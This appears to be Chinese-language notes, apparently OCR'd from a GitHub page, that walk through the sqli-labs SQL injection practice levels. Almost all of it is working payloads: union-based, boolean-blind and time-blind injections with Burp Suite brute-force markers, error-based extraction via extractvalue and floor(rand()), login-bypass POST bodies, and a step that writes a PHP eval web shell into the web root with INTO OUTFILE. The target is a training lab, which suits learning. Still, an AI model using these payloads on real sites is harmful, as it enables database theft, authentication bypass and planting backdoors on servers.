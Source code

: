 1. ?id=-1' union select 1,2,3--+
2. ?id=-1 union select 1,2,3--+
3. ?id=-1' ') union select 1,2,3--+
4. ?id=-1' '") union select 1,2,3--+
5. 盲注
   1. and left(version(),1)=8#   //出版本
   2. and length(database())=8#   //出数据库长度
   3. and%20ascii(substr(database(),§1§,1))=§101§--+，bp数字直接交叉爆破出数据库名,第一个1-8，第二个控制80-122，一次性爆出数据库名security
   4. and ascii(substr((select table_name from information_schema.tables where table_schema=database()limit §0§,1),§1§,1))=§101§--+，bp爆破第一个列数量，第二个爆破列名位置，第三个是ascii字符，成功爆破出所有列名
   5.  and ORD(MID((SELECT IFNULL(CAST(username AS CHAR),0x20)FROM security.users ORDER BY id LIMIT 0,1),1,1))=68--+     //ord() 和mid() 获取security.users表下第一行的字符数=D，同样可以爆破出所有数据
6. 盲注："，同上
7. get文件写入：
   1. ?id=1')) union select @@basedir,@@database,3#  //出文件路径
   2. ?id=1')) union select 1,2,3 into outfile "C:\\inetpub\\target\\sqlilabs\\123.txt" --+写入文件查看后台，注意转义双斜杠
   3. ?id=1'))union select 1,2,"<?php @eval($_POST['x']);?>" into outfile "C:\\inetpub\\target\\sqlilabs\\12.php" --+    //文献文件后写入一句话木马，访问ip/12.php，本题的难点是获取对方网站的目录结构，有针对性的创建木马文件
8. get盲注布尔类型：本地注释报错注入，直接爆表
   1. and left(version(),1)=8#   //出版本
   2. and length(database())=8#   //出数据库长度
   3. and%20ascii(substr(database(),§1§,1))=§101§--+，bp数字直接交叉爆破出数据库名,第一个1-8，第二个控制80-122，一次性爆出数据库名security
   4. and ascii(substr((select table_name from information_schema.tables where table_schema=database()limit §0§,1),§1§,1))=§101§--+，bp爆破第一个列数量，第二个爆破列名位置，第三个是ascii字符，成功爆破出所有列名
   5. and ORD(MID((SELECT IFNULL(CAST(username AS CHAR),0x20)FROM security.users ORDER BY id LIMIT 0,1),1,1))=68--+     //ord() 和mid() 获取security.users表下第一行的字符数=D，同样可以爆破出所有数据
9. get盲注时间：看了代码，什么错误都不报
   1. and If(ascii(substr(database(),1,1))=115,1,sleep(5))--+  //bp设置2s放弃开始爆破出数据库
   2. and If(ascii(substr((select table_name from information_schema.tables where table_schema='security' limit 0,1),1,1))=101,1,sleep(5))--+    //bp爆破数据库的表
   3. and If(ascii(substr((select column_name from information_schema.columns where table_name='users' limit 0,1),1,1))=105,1,sleep(5))--+    //bp爆破users表的列，users处加入上面爆破出的表同时爆破
   4. and If(ascii(substr((select username from users limit 0,1),1,1))=68,1,sleep(5))--+  //bp爆破值，username和users处加入上面爆破出的列与表同时爆破
10. get盲注时间：同上，'换"
11. post表单: 
    1. uname=1' or '1'='1# &passwd=admin&submit=Submit 
    2. uname=1' union select 1,2# &passwd=admin&submit=Submit   //万能密码
12. post表单: uname=-admin") union select 1,2# &passwd=admin&submit=Submit  //同上
13. post无回显注入：
    1. 随便输入符号，报错发现数据库构造 ("id")，使用双查询注入
    2. uname=-admin‘) union select count( * ),concat(**(select database())**,'~',floor(rand()*2)) as a from information_schema.tables group by a#   //爆使用的库
    3. uname=-admin’)union select count( * ),concat('~',(**select concat(table_name) from information_schema.tables where table_schema=database() limit 1,1**),'~',floor(rand()*2)) as a from information_schema.tables group by a#   //更换limit x,1遍历表
    4. uname=-admin‘)union select count( * ),concat('~',(**select concat(column_name) from information_schema.columns where table_name='users' limit 1,1**),'~',floor(rand()*2)) as a from information_schema.tables group by a#   //更换limit x,1遍历列
    5. uname=-admin’)union select count( * ),concat('~',(**select concat_ws('[',password,username) from users limit 1,1**),'~',floor(rand()*2)) as a from information_schema.tables group by a#   //更换limit x,1遍历数据
    6. uname=-admin‘)and extractvalue(1,concat('~',(select @@basedir),'~'))#  //该题还可使用报错注入，
14. post双注入：换成 "，其他同上
15. post盲注布尔类型：看8
16. post盲注布尔类型：看9
17. post更新账号密码：账号有过滤，密码输入'报错，直接用
    1. ​              1' and extractvalue(1,concat(0x7e,(select concat(table_name)from information_schema.tables where table_schema=database()),'0x7e'),1)#   //爆表,三层嵌套，最外层包含1，第二层包含0x7e，第三层是sql语句